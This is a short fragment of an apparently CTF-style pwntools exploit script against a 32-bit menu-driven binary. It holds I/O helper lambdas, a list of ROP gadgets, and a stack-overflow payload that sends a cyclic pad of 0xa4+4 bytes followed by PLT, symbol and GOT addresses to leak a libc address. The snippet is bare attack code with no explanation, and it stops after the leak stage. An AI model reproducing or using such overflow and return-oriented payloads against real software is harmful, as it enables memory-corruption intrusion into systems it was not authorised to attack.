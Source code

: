 ```

rul2 = lambda : u32(p.recvuntil('\xf7')[-4:].ljust(4,b"\x00"))

rl = lambda : p.recvline()

# rul2 = lambda : u32(p.recv(4))

  

s = lambda str: p.send(str)

sl = lambda str: p.sendline(str)

sa = lambda a,b: p.sendafter(a,b)

sla = lambda a,b: p.sendlineafter(a,b)

libc_base = lambda addr,name:addr-libc.dump(name)

go = lambda : p.interactive()

  

# Gadgets information

# ============================================================

# 0x080485f3 : pop ebp ; ret

# 0x080485f2 : pop ebx ; pop ebp ; ret

# 0x08048895 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret

# 0x08048897 : pop edi ; pop ebp ; ret

# 0x08048896 : pop esi ; pop edi ; pop ebp ; ret

# 0x08048476 : ret

  

# Unique gadgets found: 6

  

ret=0x08048476

  

ru(">> 6. Exit")

s("5")

# ru(b"Please input the name of fruit:")

sl(cyclic(0xa4+4)+p32(plt)+p32(sym)+p32(got))

  

rl()

  

```